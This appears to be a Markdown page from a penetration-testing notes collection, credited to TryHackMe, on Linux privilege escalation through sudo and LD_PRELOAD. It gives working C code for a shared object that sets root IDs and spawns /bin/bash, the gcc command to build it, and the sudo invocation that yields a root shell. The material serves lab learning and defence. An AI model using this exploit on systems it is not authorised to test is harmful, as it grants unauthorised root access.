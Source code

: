 ```yaml
---
description: SUDO exploitation by LD_PRELOAD
---
```


# SUDO

View own SUDO permissions

`sudo -l`&#x20;

* LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.

![https://i.imgur.com/gGstS69.png](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. If the "env\_keep" option is enabled, we can generate a shared library that will be loaded and executed before running the program. Note that the LD\_PRELOAD option will be ignored if the actual user ID is different from the effective user ID.&#x20;

The steps of this privilege escalation vector can be summarized as follows;&#x20;

1. Check LD\_PRELOAD (with env\_keep option).
2. Write simple C code compiled as a shared object file (.so extension).
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our '.so' file.

&#x20;The C code will simply spawn a root shell and can be written as follows:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
{% endcode %}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![shell.c and compilation with gcc](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when starting any program that our user can run with sudo. In our case we can use Apache2, find, or almost any of the programs that we can run with sudo.

We need to run the program specifying the LD\_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Screenshot showing changing to SUDO privileges with exploit</p></figcaption></figure>



_-Credits: TryHackMe_
